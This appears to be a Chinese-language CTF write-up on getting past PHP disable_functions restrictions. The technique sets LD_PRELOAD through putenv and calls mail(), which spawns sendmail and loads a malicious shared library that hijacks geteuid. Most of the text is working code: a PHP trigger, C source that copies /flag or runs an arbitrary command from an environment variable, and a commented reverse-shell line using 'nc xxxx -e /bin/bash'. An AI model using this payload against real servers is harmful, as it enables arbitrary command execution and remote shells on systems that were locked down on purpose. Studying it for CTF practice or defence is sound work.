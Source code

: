 ```bash
#cat 1.txt | grep execve
```

检查调用了哪些子进程，execve不会创建新进程，而是在原有进程的基础上执行另一个程序，进程ID保持不变。

发现有一个sendmail   ，readelf发现调用geteuid函数

自己写一个.so动态链接库，写一个恶意的geteuid函数   要先unsetenv("LD_PRELOAD")

然后命令执行putenv("LD_PRELOAD=./demo.so");mail('','','','');

![image-20250805112204846](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250805112204846.png)

具体应用：

目标可以直接使用蚁剑连接，但是被限制只能访问当前目录和/tmp，命令执行函数被全部禁用。putenv可以使用

使用蚁剑上传一个.php文件，设置LD_PRELOAD为要一起上传的恶意.so库文件

```php
<?php
putenv("LD_PRELOAD=./demo.so");
mail('','','','');
?>
```

恶意函数如下：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(){
	system("cat /flag > /tmp/flag");#也可以直接nc反弹shell    nc xxxx  -e /bin/bash
}
int geteuid(){
	unsetenv("LD_PRELOAD");#最好写不然有时候会报错
	payload();
}
```

然后访问上传的.php文件，即可在/tmp下找到flag文件

如果要传递任意指令，则可以如下：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid(){
    const char* cmdline = getenv("EVIL_CMDLINE");
    if(getenv("LD_PRELOAD") == NULL)
        return 0;
    unsetenv("LD_PRELOAD");
    system(cmdline);
}
```
